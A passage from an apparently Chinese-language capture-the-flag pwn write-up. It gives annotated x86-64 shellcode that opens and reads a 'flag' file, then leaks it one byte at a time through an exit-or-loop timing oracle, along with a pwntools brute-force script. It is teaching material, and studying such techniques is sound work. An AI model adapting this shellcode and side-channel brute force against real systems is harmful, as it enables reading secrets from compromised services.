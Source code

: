 ```plain
    p.send(shellcode)
```

al:rax 寄存器的低 8 位  
cl:rcx 寄存器的低 8 位  
dl:rdx 寄存器的低 8 位

```plain
mov r12, 0x67616c66    ; 将字符串 "flag" 的 ASCII 值加载到寄存器 r12 中
push r12               ; 将 r12 的值推送到栈上
mov rdi, rsp           ; 将栈上的地址赋给寄存器 rdi
xor esi, esi           ; 将 esi 寄存器清零
xor edx, edx           ; 将 edx 寄存器清零
mov al, 2              ; 将系统调用号 2（open）加载到寄存器 al 中
syscall                ; 执行系统调用 open，打开文件名为 flag 的文件

mov rdi, rax           ; 将 open 返回的文件描述符赋给 rdi
mov rsi, 0x10700       ; 将缓冲区地址加载到 rsi（缓冲区是用于存放 flag 内容）
mov dl, 0x40           ; 将读取的字节数加载到 dl（64 字节）
xor rax, rax           ; 将 rax 寄存器清零
syscall                ; 执行系统调用 read，读取 flag 内容到缓冲区

mov dl, byte ptr [rsi+{}]  ; 将缓冲区中的某个字节加载到寄存器 dl
mov cl, {}             ; 将输入参数 char 加载到寄存器 cl
cmp cl, dl             ; 比较寄存器 cl 和 dl 的值
jz loop                ; 如果相等，跳转到 loop 标签
mov al, 60             ; 将系统调用号 60（exit）加载到寄存器 al 
syscall                ; 执行系统调用 exit

loop:
jmp loop               ; 无限循环

这个代码片段中的 {} 部分是通过 format(dis,char) 动态插入的
```

可以看出来这个shellcode写的寄存器赋值都是用的低8位，然后寄存器清零也是用的xor，已经把长度尽可能的缩小了  
然后我们打印一下长度可以看到只有0x33，所以完全符合要求

[![](assets/1703640353-6b91ed69f5ba36c57ace38a620dffbcc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231225191750-3db0f8be-a317-1.png)  
然后就是循环了

```plain
flag = "" #初始化一个空的字符串来存储 flag。
for i in range(len(flag),36): #从当前 flag 长度到长度 35 的范围内找到 flag 的字符
    sleep(1)
    log.success("flag : {}".format(flag)) #打印当前已知的 flag 内容。
    for j in range(0x20,0x80): #在 ASCII 可打印字符范围内进行循环。
        p = process('./pwn')
        try:
            exp(i,j)
            p.recvline(timeout=1) #在 1 秒内没有收到数据，将抛出一个超时异常。
            flag += chr(j)
            s('\n')
            log.success("{} pos : {} success".format(i,chr(j)))
            p.close()
            break #跳出当前的 for 循环，继续下一个长度的 flag 的爆破。
        except:           
            p.close()
```
